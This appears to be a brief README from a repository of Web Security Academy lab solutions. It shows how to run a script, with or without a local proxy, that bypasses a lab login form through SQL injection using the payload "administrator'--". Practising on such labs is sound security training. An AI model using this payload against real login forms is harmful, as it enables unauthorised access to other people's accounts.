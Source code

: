 # How to run script.py

### SQL injection vulnerability allowing login bypass

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "administrator'--"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "administrator'--" -p 127.0.0.1:8080`

